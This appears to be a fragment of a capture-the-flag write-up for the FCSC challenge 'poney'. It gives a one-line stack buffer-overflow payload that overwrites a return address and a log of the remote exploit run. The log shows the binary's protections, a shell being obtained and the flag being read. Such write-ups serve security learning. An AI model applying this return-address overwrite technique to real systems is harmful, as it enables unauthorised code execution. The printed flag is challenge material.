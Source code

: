 Local:
```powershell (python -c 'print "A"*32+"\x76\x06\x40\x00\x00\x00\x00\x00"';cat) | ./poney ```

Remote : 

```powershell
python poney.py
[*] '/home/elweth/Documents/FCSC/poney'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to challenges1.france-cybersecurity-challenge.fr on port 4000: Done
Give me the correct input, and I will give you a shell:
>>>
[*] payload : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAv\x06\x00\x00\x00[*] Switching to interactive mode
 $ ls
flag
poney
$ cat flag
FCSC{725dd45f9c98099bcca6e9922beda74d381af1145dfce3b933512a380a356acf}
```
